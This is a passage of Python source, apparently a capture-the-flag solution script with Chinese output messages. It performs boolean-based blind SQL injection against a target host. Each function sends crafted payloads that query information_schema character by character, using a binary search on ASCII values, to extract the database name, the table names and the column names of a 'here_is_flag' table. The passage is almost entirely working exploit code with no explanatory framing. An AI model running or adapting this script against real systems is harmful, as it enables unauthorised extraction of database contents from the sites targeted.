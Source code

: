 ```python

            if 'Physics' in res.text:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
        if mid == 32 or mid == 127:
            break

        flag += chr(mid)
        i += 1
    print("数据库名为："+flag)

def TBname():  
    global host
    flag=''
    for i in range(1,1000):
        low = 32
        high = 128
        mid = (low+high)//2
        while low < high:
            #--表名
            payload = "' And if(Ascii(Substr((Select Group_concat(table_name) From infOrmation_schema.tables Where Table_schema='ctf'),{i},1))>{mid},1,0)%23".format(i=i, mid=mid)
            res = requests.get(host + payload)

            if 'Physics' in res.text:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
        if mid == 32 or mid == 127:
            break

        flag += chr(mid)
        i += 1
    print("数据表名为："+flag)

def CLname():  
    global host
    flag=''
    for i in range(1,1000):
        low = 32
        high = 128
        mid = (low+high)//2
        while low < high:
            #--列名
            payload = "' And if(Ascii(Substr((Select Group_concat(column_name) From infOrmation_schema.columns Where Table_name='here_is_flag'),{i},1))>{mid},1,0)%23".format(i=i, mid=mid)
            res = requests.get(host + payload)

            if 'Physics' in res.text:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
        if mid == 32 or mid == 127:
            break

        flag += chr(mid)
        i += 1
    print("数据列名为："+flag)

```